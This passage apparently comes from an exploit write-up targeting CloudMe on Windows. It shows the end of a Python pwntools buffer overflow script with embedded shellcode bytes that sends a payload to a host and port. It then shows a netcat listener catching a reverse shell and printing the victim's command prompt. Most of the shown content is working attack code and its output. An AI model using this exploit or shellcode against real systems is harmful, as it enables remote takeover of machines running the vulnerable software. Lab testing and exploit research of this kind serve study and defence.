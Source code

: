 ```python
    shellcode += b"\x3a\x30\x93\x76\xb7\x60\x4c\xfc\x6a\x94\xf9"
    shellcode += b"\x48\xb7\x1f\xb1\x5d\xbf\xfc\x02\x5f\xee\x53"
    shellcode += b"\x18\x06\x30\x52\xcd\x32\x79\x4c\x12\x7e\x33"
    shellcode += b"\xe7\xe0\xf4\xc2\x21\x39\xf4\x69\x0c\xf5\x07"
    shellcode += b"\x73\x49\x32\xf8\x06\xa3\x40\x85\x10\x70\x3a"
    shellcode += b"\x51\x94\x62\x9c\x12\x0e\x4e\x1c\xf6\xc9\x05"
    shellcode += b"\x12\xb3\x9e\x41\x37\x42\x72\xfa\x43\xcf\x75"
    shellcode += b"\x2c\xc2\x8b\x51\xe8\x8e\x48\xfb\xa9\x6a\x3e"
    shellcode += b"\x04\xa9\xd4\x9f\xa0\xa2\xf9\xf4\xd8\xe9\x95"
    shellcode += b"\x39\xd1\x11\x66\x56\x62\x62\x54\xf9\xd8\xec"
    shellcode += b"\xd4\x72\xc7\xeb\x1b\xa9\xbf\x63\xe2\x52\xc0"
    shellcode += b"\xaa\x21\x06\x90\xc4\x80\x27\x7b\x14\x2c\xf2"
    shellcode += b"\x2c\x44\x82\xad\x8c\x34\x62\x1e\x65\x5e\x6d"
    shellcode += b"\x41\x95\x61\xa7\xea\x3c\x98\x20\xd5\x69\x9a"
    shellcode += b"\xb1\xbd\x6b\xda\x92\x14\xe5\x3c\xbe\x76\xa3"
    shellcode += b"\x97\x57\xee\xee\x63\xc9\xef\x24\x0e\xc9\x64"
    shellcode += b"\xcb\xef\x84\x8c\xa6\xe3\x71\x7d\xfd\x59\xd7"
    shellcode += b"\x82\x2b\xf5\xbb\x11\xb0\x05\xb5\x09\x6f\x52"
    shellcode += b"\x92\xfc\x66\x36\x0e\xa6\xd0\x24\xd3\x3e\x1a"
    shellcode += b"\xec\x08\x83\xa5\xed\xdd\xbf\x81\xfd\x1b\x3f"
    shellcode += b"\x8e\xa9\xf3\x16\x58\x07\xb2\xc0\x2a\xf1\x6c"
    shellcode += b"\xbe\xe4\x95\xe9\x8c\x36\xe3\xf5\xd8\xc0\x0b"
    shellcode += b"\x47\xb5\x94\x34\x68\x51\x11\x4d\x94\xc1\xde"
    shellcode += b"\x84\x1c\xe1\x3c\x0c\x69\x8a\x98\xc5\xd0\xd7"
    shellcode += b"\x1a\x30\x16\xee\x98\xb0\xe7\x15\x80\xb1\xe2"
    shellcode += b"\x52\x06\x2a\x9f\xcb\xe3\x4c\x0c\xeb\x21"

    payload = buffer + eip + all_chars

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()    
```

#### testing exploit locally 

I start a nc listener and run the exploit successfully receiving a connection 

```bash
$ python exp.py
[+] Opening connection to 127.0.0.1 on port 8888: Done
[*] Closed connection to 127.0.0.1 port 8888
[+] Payload sent
```

```bash
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.146] 56576
Microsoft Windows [Versi�n 10.0.19045.4529]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Users\user\Desktop\CloudMe\CloudMe>
```

